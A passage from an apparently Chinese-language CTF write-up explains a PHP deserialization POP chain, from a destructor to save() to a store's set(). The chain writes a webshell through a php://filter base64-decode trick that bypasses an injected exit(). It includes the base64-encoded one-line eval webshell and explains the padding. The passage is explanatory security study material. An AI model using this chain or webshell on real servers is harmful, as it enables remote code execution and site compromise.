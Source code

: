 - 接下来就是调用`class B`中的`set`函数。`class B`中的函数没办法调用`set`,但是`class A`中`save`函数中有这么一句代码。

    ```php
    $this->store->set($this->key, $contents, $this->expire);
    ```

    所以这里只需要令`$this->store=new B()`就可以调用`class B`的`set`函数了

    下一步就是调用`save`函数了，而`class A`中下一个魔术函数`__destruct`就提供了调用`save`函数的方法，只需要令`$this->autosave=false`

    完整的pop链就出来了。

- pop链有了，下一步就是构造webshell了，因为原始代码会在文件中写入exit导致我们直接写入webshell的话是无法执行的。上面提到了可以用php伪协议绕过。

    ```php
    $filename = 'php://filter/write=convert.base64-decode/resource=xxx.php';
    $data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . "aaaPD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTsgPz4="
    file_put_contents($filename, $data);
    // 这样可以直接将base64解码后的内容写入xxx.php
    ```

    `PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTsgPz4=` 是 `<?php eval($_POST['cmd']); ?>`的base64编码

    base64 解码时以4个字符为一组。

    base64编码中只包含64个可打印字符，base64解码时遇到不在不在这64个字符中的字符会自动忽略，仅将合法字符组合进行解码
    
    所以`$data`前半部分字符中`<、?、()、;、>、\n`都不在这64个字符范围内，在解码时会自动将其忽略从而剩下`phpexit//`这9个字符以及`sprintf('%012d', $expire)`格式化打印的12个字符，因此为了防止在解码时破坏构造的webshell，所以需要在webshell的base64编码前加上三个字符组合成4的倍数。


- `$filename`来自`class A`的`key`,传参过程中没有经过什么变换，在`class A`中可以直接令`$this->key='php://filter/write=convert.base64-decode/resource=xxx.php'`

- `$data`来自`class A`的`$contents`，`$contents`变量来自函数`getForStorage()`的返回值，其中参数为数组`[$cleaned, $this->complete]`，两个选择，第一让`$cleaned`为shell内容，第二就是`$complete`

    *注意：这里的webshell base64编码次数由`class B`中`$this->options['serialize']`的值决定。当`$this->options['serialize'] = 'base64_encode'`时，不管是用那个变量构造webshell，都要对webshell编码两次，而且第二次编码时要在开头增加三个字符；当`$this->options['serialize'] = 'trim'`时， 编码一次就行，编码完成后在开头增加三个字符*

    ```php
    public function save() {
        $contents = $this->getForStorage();

        $this->store->set($this->key, $contents, $this->expire);
    }

    public function getForStorage() {
        $cleaned = $this->cleanContents($this->cache);

        return json_encode([$cleaned, $this->complete]);
    }
    ```

    1. 利用`$cleaned`构造webshell

        `$cleaned`是`$this->cache`经过`cleanContents`函数处理的返回值

        ```php
        public function cleanContents(array $contents) {
        $cachedProperties = array_flip([
            'path', 'dirname', 'basename', 'extension', 'filename',
            'size', 'mimetype', 'visibility', 'timestamp', 'type',
        ]);
